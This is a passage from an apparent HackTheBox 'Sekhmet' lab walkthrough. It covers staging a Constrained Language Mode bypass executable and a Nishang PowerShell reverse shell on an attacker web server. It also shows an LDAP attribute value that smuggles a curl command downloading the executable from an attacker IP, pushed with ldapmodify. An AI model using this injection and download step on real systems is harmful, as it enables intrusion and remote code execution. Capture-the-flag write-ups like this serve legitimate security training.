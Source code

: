 Note : you will find System.Management.Automation.dll file CLMBypassBlogpost-master\Bypass\packages\System.Management.Automation.dll.10.0.10586.0\lib\net40 , you can (you can transfer it to the main file)


We transferred the program.exe to our attacker machine and changed its name to a.exe to ignore any character limitations. If you have Python 3 installed on your Windows virtual machine, you can start a web server with the following command:
```bash
python -m http.server 8000
```

On our attacker machine, we need to create another file containing our shell (I used the Invoke-PowerShellTcp.ps1 script from Nishang Shells), and then start a Python 3 web server :


<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/40.png"  >


on root@webserver change the change.ldif as shown below:

```bash
dn: CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb
changetype: modify
replace: mobile
mobile: 1;curl http://10.10.14.149/a.exe -o C:\Windows\Debug\wia
```
and run :

```bash
ldapmodify -Y GSSAPI -H ldap://windcorp.htb -D "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb" -f change.ldif
```

When you receive a hint on your Python3 web server, immediately modify change.ldif as shown below to run a.exe:

